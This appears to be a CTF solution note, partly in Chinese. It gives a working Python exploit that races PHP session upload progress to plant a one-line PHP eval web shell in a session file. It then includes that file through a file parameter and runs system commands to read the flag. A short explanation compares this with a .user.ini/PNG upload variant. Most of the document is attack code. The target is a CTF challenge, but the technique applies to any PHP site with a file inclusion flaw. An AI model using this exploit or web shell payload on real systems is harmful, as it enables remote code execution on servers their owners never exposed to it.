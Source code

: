 文件包含

```python
import requests
import threading
import sys

session = requests.session()
sess = 'zzy'
url1 = "http://0bd266c6-b013-4a9a-97b5-2a644856a1e5.challenge.ctf.show:8080/"
url2 = 'http://0bd266c6-b013-4a9a-97b5-2a644856a1e5.challenge.ctf.show:8080/?file=/tmp/sess_' + sess

# file后为phpsession的路径
data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[1]);?>'
}
data2 = {
    '1': 'system("cat f*");'
}
file = {
    'file': 'abc'
}
cookies = {
    'PHPSESSID': sess
}


def write():
    while True:
        r = session.post(url1, data=data1, files=file, cookies=cookies)


def read():
    while True:
        r = session.post(url2, data=data2)
        if 'ctfshow{' in r.text:
            print(r.text)


threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()

```

上面两个脚本的区别

```
文件上传，用url1的内容，post向phpsession中爆flag，然后通过访问url2，可以触发upload下的index.php,然后到.user.ini,再到png中去include PHPSESSION的内容，执行命令。如果是传入小马，url2需要post内容，执行命令

文件包含：url1的内容，来向phpsession中写入小马，然后，通过url2的file的参数去包含phpsession的路径，加上url2的post来执行命令，从而得到flag。

```
